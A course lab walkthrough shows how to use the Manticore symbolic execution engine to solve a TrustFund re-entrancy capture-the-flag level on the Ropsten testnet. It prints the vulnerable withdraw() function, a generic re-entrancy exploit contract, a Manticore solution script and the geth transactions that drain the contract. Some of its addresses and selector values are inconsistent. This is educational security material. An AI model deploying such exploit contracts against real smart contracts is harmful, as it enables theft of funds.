









In this level, you will employ the Manticore symbolic execution engine to automatically generate a transaction that will solve the TrustFund CTF level. You will then be able to directly submit solutions to the CTF framework using geth.
geth and tmux sessionsConnect back into VM you installed geth and manticore into. Within the VM, re-attach to your tmux session (or recreate it using the directions from the previous lab)
tmux attach
Ideally, you should have at least 3 sessions.
geth session synchronizing the light node with the Ropsten network viageth \ --allow-insecure-unlock \ --ropsten \ --http --http.addr 127.0.0.1 \ --http.port 8545 --http.api admin,eth,net,web3,personal \ --nousb
geth attach http://127.0.0.1:8545/
cs410b-src/manticore_labs/manticore_scripts, for editing the Manticore solution scripts and running them.
Recall that this level sends the allowance *before* updating the variable that updates the withdrewThisYear state in red. This sending causes the fallback function of the recipient to be invoked. Within this fallback function, an adversary can again invoke the withdraw() function to call it again *before* the state is updated. Done recursively, this will drain the trust fund entirely.
SI_ctf_levels/TrustFund.solcontract TrustFund is CtfFramework{
...
function withdraw() external ctf{
require(allowancePerYear > 0, "No Allowances Allowed");
checkIfYearHasPassed();
require(!withdrewThisYear, "Already Withdrew This Year");
if (msg.sender.call.value(allowancePerYear)()){
withdrewThisYear = true;
numberOfWithdrawls = numberOfWithdrawls.add(1);
}
}
...
}
For levels involving re-entrancy, manticore has a generic attack script that can be used to launch the exploit. As part of this, several things are required: the nonce and the address of the creator of the TrustFund contract itself as well as the nonce and the address of the person (i.e. you) deploying the attack script (i.e. you). With these values, the exact transactions to send can be generated. However, this is not a particularly easy thing to get right. One can also solve this level by having Manticore generate the exploits using dummy addresses. You can then manually substitute the real addresses in for the dummy ones and solve the level similarly. The walkthrough will demonstrate the former approach.
Manticore uses a generic script to launch re-entrancy attacks against vulnerable contracts. The script is symbolically executed in conjunction with the vulnerable contract to determine an attack string that will cause the vulnerable contract to transfer all of its funds to the attacker. The generic script is included as a string in the Manticore script (exploit_source_code). The script starts by defining a string that will be used as msg.data to attack the vulnerable contract as well as the address of the owner/attacker, the address of the vulnerable contract, and the number of times to perform re-entrancy. The settr functions and constructor are shown below.
contract GenericReentranceExploit {
int reentry_reps; // Number of times to re-enter victim
address vulnerable_contract; // Address of victim
address owner; // Address to send ETH to after exploit
// msg.data to call victim with to pull off re-entrancy
bytes reentry_attack_string;
// Owner set to sender
function GenericReentranceExploit(){
owner = msg.sender;
}
function set_vulnerable_contract(address _vulnerable_contract){
vulnerable_contract = _vulnerable_contract;
}
function set_reentry_attack_string(bytes _reentry_attack_string){
reentry_attack_string = _reentry_attack_string;
}
function set_reentry_reps(int256 reps){
reentry_reps = reps;
}The contract also has a function to direct a call to the vulnerable contract (proxycall) and functions for the attacker to retrieve the money after the exploit (get_money).
function proxycall(bytes data) payable{
vulnerable_contract.call.value(msg.value)(data);
}
function get_money(){
// Retrieve the ether after exploitation
owner.send(this.balance);
}Finally, the attack script has the required fallback function that will be used to recursively call the vulnerable contract when the vulnerable contract attempts to send the attack script funds.
function () payable{
// recurse between vulnerable contract & our fallback function
if (reentry_reps > 0) {
reentry_reps = reentry_reps - 1;
vulnerable_contract.call(reentry_attack_string);
}
}Manticore has difficulty instantiating contracts with specific addresses. Instead, it asks you to supply the address of the creator and its nonce before generating its simulated contract on that address. (See RainyDayFund level for a description of the mechanism). For this level, we need to find the address of the accounts that create the TrustFund contract and the attack contract as well as the nonces they used when creating the contracts. We will also need to specify the amount of funds we wish to supply each account. The TrustFund Manticore template includes placeholders for this information that you will fill in to allow Manticore to generate the appropriate attack. In the initial part of the script, a function for setting the nonce for a particular creator address (set_nonce) is defined and both the creator and attack accounts are created with particular balances:
# Set the value of the nonce for an address
# - Needed to determine address of the contracts
# - Manticore currently only allows for incrementing a nonce
def set_nonce(world,address,nonce):
while world.get_nonce(address) < nonce:
world.increase_nonce(address)
# Initialize balance to give victim and your account (in Wei)
contract_balance = ???
attacker_balance = 0
creator_account = m.create_account(
address=contract_creator_address,
balance=contract_balance)
attacker_account = m.create_account(
address=from_address,
balance=attacker_balance)After creating the accounts, we will then need to figure out the nonces that will be used to create the subsequent vulnerable contract and attacking contract. The process for doing so will be outlined in the next section:
# Find your wallet's nonce on EtherScan in order for Manticore
# to generate contract address for the generic exploit script that
# will be created. Needed to generate subsequent transactions to it.
set_nonce(m.get_world(), attacker_account.address, ???)
# Find the nonce for the CTF level's creator (i.e. the launcher).
# Similar process as in RainyDayFund.
set_nonce(m.get_world(), creator_account.address, ???)We can then create the two contracts in Manticore's EVM.
# Create our victim contract
contract_account = m.solidity_create_contract(
contract_source_code, # read in from file system
contract_name="TrustFund",
owner=creator_account,
address=si_level_address, # program fails if nonce wrong
args=(0,0),
balance=contract_balance)
# Create our exploit contract
exploit_account = m.solidity_create_contract(
exploit_source_code, # shown previously
owner=attacker_account)Finally, we generate the attacking transactions using calls to the generic attack script in the previous step. Note that we make the call to proxycall symbolic since we wish for Manticore to solve for a transaction that will obtain the vulnerable contract's balance. The transactions include setting the address of the vulnerable contract, setting the number of times to re-enter the vulnerable contract, setting the attack string symbolically, issuing the call to attack the vulnerable contract, and finally retrieving the funds from the attacking script upon completion of the re-entrancy attack.
# Set victim address on attack script. Use contract_account
# created previously
exploit_account.set_vulnerable_contract(contract_account)
# Set number of times to reenter the vulnerable contract
exploit_account.set_reentry_reps(???)
# Make reentry attack string symbolic. Attempt to have Manticore
# solve for this (should find signature hash for 'withdraw()')
reentry_string = m.make_symbolic_buffer(???)
# Set string in exploit contract to symbolic string
exploit_account.set_reentry_attack_string(reentry_string)
# Perform symbolic execution with exploit contract
# using its proxycall() function
exploit_account.proxycall(reentry_string)
# Get money from attack contract
exploit_account.get_money()We are looking for Manticore to find an input that will ensure that the final get_money call contains the balance of the vulnerable contract. The main symbolic execution loop will then iterate until it finds a state in which this is true, before then solving for the input that reaches the state. The relevant part of the script is included below:
for state in m.running_states:
world = state.platform
if state.can_be_true(world.get_balance(attacker_account.address) == contract_balance+attacker_balance):
state.constraints.add(world.get_balance(attacker_account.address) == contract_balance+attacker_balance)
# Go through all transactions and concretize. Note that Manticore
# returns all transactions in the world not just the ones we send
for transaction in world.transactions:
data = state.solve_one(transaction.data)
. . .Finding the address and nonce of the contract that created your TrustFund victim contract can be done in Etherscan. First, copy the address of your current TrustFund CTF and paste it into Etherscan (same first step as finding the timestamp of LockBox)

On the internal transactions page, find the "from" address on the transaction that created your level (shown below). Click on the txn that created the contract:
As the output shows, the CTF contract (0xdcb370...) sends your ETH to the TrustFund level launcher contract (0x2f5551...). This contract then creates your level contract (0x7a28df...).

We will refer to the TrustFund level launcher contract (the address that creates your level contract) as the creator address. As the UI shows, the launcher address is 0x2f5551674A7c8CB6DFb117a7F2016C849054fF80. For Manticore to be happy that we've got all of the right parameters to symbolically execute transactions, we now must find the nonce of this address that was used to create our level. We will additionally need to find our own wallet nonce.
To discover launcher's nonce when it created our level contract, click on the "State Changes" tab and examine the state change on the launcher address. As shown below, for the above TrustFund level, the nonce of the launcher when it created it was 182.

Since our wallet account will generate the exploit script, instantiating a version of our contract in Manticore requires us to find our own wallet nonce. Finding your own nonce is relatively simple. Put your wallet address into geth's getTransactionCount function, or, if you've already imported your wallet, you can just reference it:
> eth.getTransactionCount(eth.accounts[0])
307This is the current nonce, so it will be used to calculate the address of the next contract it creates (which will be the exploit contract used by this script). There is no need to decrement it for the solution script. With these two values, update the Python solution script with the appropriate parameters and run it.
~/manticore_scripts$ python3 trustfund_solution.py 0xe9e7034AeD5CE7f5b0D281CFE347B8a5c2c53504 0x7a28df41f54562b4be3554ac0230f84766bd442e 0x2f5551674A7c8CB6DFb117a7F2016C849054fF80
You should receive multiple transactions that, when submitted, will exploit the TrustFund level contract automatically.
calculated victim contract address: 0x7a28df41f54562b4be3554ac0230f84766bd442e
calculated exploit contract address: 0x4a48ad8c9a181367d17e222ea92d752cc94d8d2e
Setting up the generic exploit contract
Setting symbolic attack string
Running reentrancy transaction
Return ether to our wallet
Check states where we have all the ether
Found a winning state, print all transactions
eth.sendTransaction({data:"0x608060405234801561001057600080fd5b5033600260006101000a81548173ffffffffffffffffffffffff...
We can now look at the output to see what is going on.
Analyze the transactions that Manticore has discovered for exploiting your vulnerable contract. The first transaction creates the attacking contract. Running this transaction will return the hash of the contract creation transaction for the Generic Reentrance Exploit.
// Contract creation
eth.sendTransaction({data:"0x608060405234801561001057600080fd5b5033600260006101000a81548173fffffffffffffffffffffffffffffffffff..................
......
......
627a7a72305820b6fcf711c1535522b75c94396b69877aa662cf4fa634467408aa8b89aec362900029",from:"0xe9e7034aed5ce7f5b0d281cfe347b8a5c2c53504",value:"0x0",gas:"0x2dc6c0"})For the wallet address and nonce used to send this transaction, the attack contract is deployed on address 0x4B426b7a7255587D3403FD6eA0ee7c66a25cb642. The Manticore script (if configured correctly) will then send subsequent transactions to this address in order to pull off the attack. In the interactive geth attach session, unlock your wallet via personal.unlockAccount(), copy the first transaction and paste it into geth to create the attacking contract. Copy the transaction hash.

Visit Etherscan to examine the transaction to see the address of the contract created.

Ensure that it matches the address calculated by Manticore that the subsequent transactions send their transactions to:

Manticore generates transactions that automatically exploit the victim, but it does not automatically generate transactions that enable your attacking contract to interact with the victim contract. To do so, register the attack contract address as an authorized sender to the CTF level contract:

We can now examine the subsequent transactions. The first transaction calls set_vulnerable_contract() with the victim contract's address.
// set_vulnerable_contract(address)
eth.sendTransaction({data:"0xbeac44e7000000000000000000000000bc50683739065fc1bd6498e990530cb30d994fbb", from:"0xe9e7034aed5ce7f5b0d281cfe347b8a5c2c53504", to:"0xe379820287a221d07c9992546a21093f6ed60d52", value:"0x0", gas:"0x3d0900"})Upon execution of the transaction, one can visit the transaction to see the state of the attack contract's storage has been changed to add the address of the vulnerable contract.

The next transaction calls set_reentry_reps() with a parameter of 10 (0x0a)
// set_reentry_reps(int256)
eth.sendTransaction({data:"0x0d4b1aca000000000000000000000000000000000000000000000000000000000000000a", from:"0xe9e7034aed5ce7f5b0d281cfe347b8a5c2c53504", to:"0xe379820287a221d07c9992546a21093f6ed60d52", value:"0x0", gas:"0x3d0900"})The next transaction calls set_reentry_attack_string() with a parameter that specifies the hash of the vulnerable withdraw() call in the victim (0x83ccfd60).
// set_reentry_attack_string(bytes)
eth.sendTransaction({data:"0x9d15fd17000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000043ccfd60b00000000000000000000000000000000000000000000000000000000", from:"0xe9e7034aed5ce7f5b0d281cfe347b8a5c2c53504", to:"0xe379820287a221d07c9992546a21093f6ed60d52", value:"0x0", gas:"0x3d0900"})The next transaction kicks off the exploit by calling the Generic Reentrance Exploit's proxycall() that will invoke the vulnerable function using the initial reentrancy attack string.
// proxycall(bytes)
eth.sendTransaction({data:"0xb1f14dec000000000000000000000000000000000000000000000000000000000000002000000000000000000000000000000000000000000000000000000000000000043ccfd60b00000000000000000000000000000000000000000000000000000000", from:"0xe9e7034aed5ce7f5b0d281cfe347b8a5c2c53504", to:"0xe379820287a221d07c9992546a21093f6ed60d52", value:"0x0", gas:"0x3d0900"})Finally, the last transaction kicks off the exploit by calling get_money() to collect the funds from the attack contract.
// get_money()
eth.sendTransaction({data:"0xb8029269",from:"0xe9e7034aed5ce7f5b0d281cfe347b8a5c2c53504",to:"0x4B426b7a7255587D3403FD6eA0ee7c66a25cb642",value:"0x0",gas:"0x2fffff"})As done previously, copy the transaction that Manticore finds one by one into the interactive geth session. Execute the transaction and take a screenshot of the resultant transaction hash. Then look the transaction up on Etherscan and take a screenshot of it. Include both in your lab notebook. You do not need to commit the code into your repository.
Congratulations on applying symbolic execution to solve the TrustFund level.